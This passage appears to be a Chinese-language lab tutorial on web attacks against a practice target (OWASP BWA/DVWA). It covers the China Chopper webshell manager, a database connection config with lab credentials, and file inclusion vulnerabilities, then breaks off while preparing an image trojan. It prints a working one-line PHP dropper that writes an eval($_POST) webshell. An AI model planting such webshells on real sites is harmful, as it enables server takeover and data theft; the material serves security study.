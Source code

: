 


## 4.中国菜刀的三大功能

- 文件管理
- 数据库管理
- 虚拟终端

数据库管理：

![image-20220901223018762](C:\Users\xtanx\Desktop\typora\.assets\image-20220901223018762.png)

```mysql
<T>MYSQL</T>
<H>localhost</H>
<U>root</U>
<P>owaspbwa</P>
```

右击，进入数据库：

![image-20220901223236403](C:\Users\xtanx\Desktop\typora\.assets\image-20220901223236403.png)

---



## 5.文件包含漏洞

### 1.通过主程序里的include包含

![image-20220902103502243](C:\Users\xtanx\Desktop\typora\.assets\image-20220902103502243.png)

例如：

![image-20220902121843856](C:\Users\xtanx\Desktop\typora\.assets\image-20220902121843856.png)

### 2.本地文件包含

- 通过文件上传木马文件
- 执行包含上传的木马文件，生成恶意php代码文件

```shell
if (($uploaded_ext == "jpg" || $uploaded_ext == "JPG" || $uploaded_ext == "jpeg" || $uploaded_ext == "JPEG")
```

上面提到文件上传漏洞的高安全级别下，对文件的后缀做了限制，所以我们只能上传图片文件

**a. 制作一句话木马图片文件duck1.jpg：**

- 准备shell.php文件，内容如下：

```php
<?fputs(fopen("shell2.php", "w"),'<?php eval($_POST[password]);?>')?>
```
